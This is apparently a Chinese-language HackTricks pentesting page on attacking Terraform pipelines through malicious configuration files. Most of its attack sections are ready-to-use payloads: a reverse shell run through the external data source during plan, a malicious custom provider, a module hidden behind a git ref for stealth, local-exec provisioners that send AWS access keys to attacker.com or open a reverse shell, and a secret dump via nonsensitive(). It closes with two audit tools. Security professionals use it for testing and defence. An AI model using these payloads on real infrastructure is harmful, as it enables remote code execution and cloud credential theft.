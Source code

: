 # Terraform安全

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

HashiCorp Terraform是一种**基础设施即代码工具**，它允许您使用人类可读的配置文件定义**云端和本地资源**，并对其进行版本控制、重用和共享。然后，您可以使用一致的工作流程来规划和管理整个基础设施的生命周期。Terraform可以管理低级组件，如计算、存储和网络资源，以及高级组件，如DNS条目和SaaS功能。

### Terraform如何工作？

Terraform通过应用程序编程接口（API）在云平台和其他服务上创建和管理资源。提供者使Terraform能够与几乎任何具有可访问API的平台或服务一起工作。

![](<../../.gitbook/assets/image (33).png>)

HashiCorp和Terraform社区已经编写了**超过1700个提供者**，用于管理数千种不同类型的资源和服务，这个数字还在不断增长。您可以在[Terraform Registry](https://registry.terraform.io/)上找到所有公开可用的提供者，包括Amazon Web Services (AWS)、Azure、Google Cloud Platform (GCP)、Kubernetes、Helm、GitHub、Splunk、DataDog等等。

核心的Terraform工作流程包括三个阶段：

* **编写：**您定义资源，这些资源可能跨越多个云提供商和服务。例如，您可以创建一个配置，将应用程序部署到具有安全组和负载均衡器的虚拟机中的虚拟私有云（VPC）网络上。
* **规划：**Terraform创建一个执行计划，描述基于现有基础设施和您的配置将要创建、更新或销毁的基础设施。
* **应用：**经过批准，Terraform按照正确的顺序执行所提议的操作，遵守任何资源依赖关系。例如，如果您更新了VPC的属性并更改了该VPC中的虚拟机数量，Terraform将在扩展虚拟机之前重新创建VPC。

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise允许您在**Terraform Cloud的自托管版本**中远程运行`terraform plan`或`terraform apply`等命令。因此，如果您找到了访问该Terraform服务器的**API密钥**，您就可以**危害它**。
有关更多信息，请参阅：

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Terraform实验

只需在计算机上安装terraform。

这里有一个[指南](https://learn.hashicorp.com/tutorials/terraform/install-cli)，这里有一个[下载terraform的最佳方式](https://www.terraform.io/downloads)。

## Terraform中的RCE

Terraform**没有公开的网页或网络服务**可以枚举，因此，入侵terraform的唯一方法是**能够添加/修改terraform配置文件**。

然而，terraform是一个**非常敏感的组件**，因为它将对不同位置具有**特权访问**，以便能够正常工作。

攻击者能够入侵运行terraform的系统的主要方法是**入侵存储terraform配置的存储库**，因为在某个时刻它们将被**解释**。

实际上，已经有一些解决方案可以在创建PR后**自动执行terraform plan/apply**，例如**Atlantis**：

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

如果您能够入侵terraform文件，那么在执行`terraform plan`或`terraform apply`时，您可以使用不同的方法执行RCE。

### Terraform plan

Terraform plan是terraform中**最常用的命令**，开发人员/使用terraform的解决方案经常调用它，因此获得RCE的**最简单方法**是确保您在一个terraform配置文件中注入将在`terraform plan`执行时执行任意命令的代码。

#### 使用外部提供者

Terraform提供了[`external`提供者](https://registry.terraform.io/providers/hashicorp/external/latest/docs)，它提供了在Terraform和外部程序之间进行接口的方法。您可以使用`external`数据源在`plan`期间运行任意代码。

在terraform配置文件中注入以下内容将在执行`terraform plan`时执行一个反向shell：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 使用自定义提供程序

任何人都可以编写一个[自定义提供程序](https://learn.hashicorp.com/tutorials/terraform/provider-setup)并将其发布到[Terraform Registry](https://registry.terraform.io/)。您还可以尝试从私有注册表中拉取自定义提供程序。

步骤如下：

* 编写一个自定义提供程序，运行一些恶意代码（例如窃取凭据或客户数据）
* 将其发布到Terraform Registry
* 在功能分支中的Terraform代码中添加提供程序
* 为功能分支打开一个PR
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
由于提供程序将在`init`期间被拉取并在`plan`期间运行一些代码，因此您可以执行任意代码。

您可以在[https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)中找到一个示例。

#### 使用外部引用

上述两种选项都很有用，但不够隐蔽（第二种比第一种更隐蔽，但比第一种更复杂）。您可以以更隐蔽的方式执行此攻击，按照以下建议操作：

* 不要直接将反向shell添加到terraform文件中，而是可以**加载包含反向shell的外部资源**：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
您可以在[https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)找到反向shell代码。

* 在外部资源中，使用**ref**功能将**terraform反向shell代码隐藏在存储库的一个分支中**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

将执行Terraform apply以应用所有更改，您还可以滥用它来注入**带有[local-exec](https://www.terraform.io/docs/provisioners/local-exec.html)的恶意Terraform文件**以获得RCE。\
您只需要确保以下类似的有效负载出现在`main.tf`文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循前一种技术的建议，使用外部引用以更隐蔽的方式执行此攻击。

## 密钥泄露

您可以通过在terraform文件中添加以下内容来运行`terraform apply`来获取terraform使用的**秘密值的转储**：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 审计工具

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec使用静态分析你的terraform代码来发现潜在的配置错误。
* [**terascan**](https://github.com/tenable/terrascan): Terrascan是一种用于基础设施即代码的静态代码分析器。

## 参考资料

* [Atlantis安全](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果你想看到你的**公司在HackTricks中被广告**，或者如果你想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享你的黑客技巧。**

</details>
